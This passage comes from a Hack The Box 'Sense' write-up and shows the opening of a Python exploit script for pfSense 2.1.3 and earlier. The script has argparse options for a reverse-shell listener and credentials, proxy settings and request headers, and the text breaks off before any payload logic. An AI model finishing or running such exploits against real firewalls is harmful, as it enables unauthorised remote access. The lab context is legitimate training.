 Sure, we got it. Now let's automate it in a Python Script

# Python Script

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-30-HackTheBox-Sense/2021-08-30-HackTheBox-Sense%2007:22:39.png)

pfsense_exploit.py

```py
#!/usr/bin/python3
# Date: 2021-08-31
# Exploit Author: 0x4rt3mis
# Vendor Homepage: https://www.pfsense.org/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# Hack The Box - Sense

import argparse
import requests
import sys
import urllib
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
import collections
import os
import socket, telnetlib
from threading import Thread

#### Setting up something important #####
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://10.10.10.60", "Connection": "close", "Referer": "https://10.10.10.60/", "Upgrade-Insecure-Requests": "1"}

```